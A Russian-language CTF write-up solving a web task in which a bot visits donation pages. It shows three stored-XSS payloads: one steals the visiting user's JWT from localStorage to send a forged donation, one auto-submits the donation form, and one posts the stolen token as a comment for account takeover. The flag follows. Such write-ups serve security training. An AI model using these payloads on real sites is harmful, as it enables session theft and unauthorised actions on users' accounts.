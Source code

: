 Описание:

А это то, чем всё закончилось.
Сноубордистам захотелось восстановить справедливость после пранка лыжников. Ты придумал способ вернуть их время.
Лыжники активно критиковали сноубордистов в комментариях на страницах сноубордических донатов, а ты смог обратить это против них.
Скипассы Капивеля: t-alps-o7u5dp3y.spbctf.org/

Решение:

Эта вторая часть саги про битву между лыжниками и сноубордистами.
1я часть была описана [тут](https://github.com/futsurihateyou/T-CTF/blob/main/Капибальпы.md).
Зайдем на аккаунт сноубордиста, который создали в прошлый раз.
Мда, после наших махинаций мы немного обеднели:

![image](https://github.com/user-attachments/assets/49453693-0dcc-4d87-87df-bb41c12d5005)

В описании что-то было написано про комментарии под донаты, посмотрим, что там творится.

![image](https://github.com/user-attachments/assets/80740529-e983-4f0c-b8bf-4f976c6e6b74)

Тот факт, что некие пользователи по условию задачи регулярно заходят на страницы всех наших донатов это явный намек на XSS.
Давай проверим поля на уязвимость.

![image](https://github.com/user-attachments/assets/d157d534-8e4a-44cb-b346-eaaeb3a4aec6)

Попробуем проверочный payload.

![image](https://github.com/user-attachments/assets/f7f09de0-7e0b-4131-ad88-89c34dfc638d)

Уязвимость работает. Хорошо, теперь у нас есть 3 пути решения этой таски. Я опишу каждый из них.

**Способ №1**

```javascript
<img src='x' onerror="var t=localStorage.getItem('token');fetch('/api/donation-pages/H6YIkyk206R4Hj2m/donate',{method:'POST',headers:{'Content-Type':'application/json',Authorization:'Bearer '+t},body:JSON.stringify({minutes:100500})})">
```

Это payload, в котором сначала в переменную записывается JWT-токен, а затем отправляется POST-запрос на отправку минут по нашему донату.

**Способ №2**

```javascript
<img src=x onerror="document.getElementById('donationInput').value='100500'; document.querySelector('button[type=submit],input[type=submit]').click();">
```

Этот payload работает аналогично предыдущему, но при этом не отправляет никаких запросов. Он на чистом javascript-е находит нужное поле, записывает туда '100500' и нажимает на кнопочку. По сути чисто front-end решение.

**Способ №3**

```javascript
  fetch(`/api/donation-pages/xxx/comments`, {
    method: "POST",
    headers: {
      "Authorization": "Bearer " + localStorage.token,
      "Content-Type": "application/json"
    },
    body: JSON.stringify({
      content: "Token captured: " + localStorage.token
    })
  })
'>
```

Этот payload заставляется бота, который посещает наши донаты, записать его же JWT-token в комментарии к нашему донату. После чего мы уже можем сами зайти от его имени и отправить донат.

**Итого**

Работают все 3 решения (и возможно их еще больше), но я воспользуюсь первым для примера.

![image](https://github.com/user-attachments/assets/00e33ac6-f6b6-4d9e-a993-ffc0d4ba1f8b)

Не забываем вставить в payload id именно нашего доната (созданного ранее) и нажимаем отправить.

![image](https://github.com/user-attachments/assets/99c02e15-1ccf-45ff-bd9f-f225221d7419)

Ждем пару секунд и вот он флаг.

**Флаг: tctf{we_JU5t_Xs5_THE_C4piV3le_Ski3rs}**
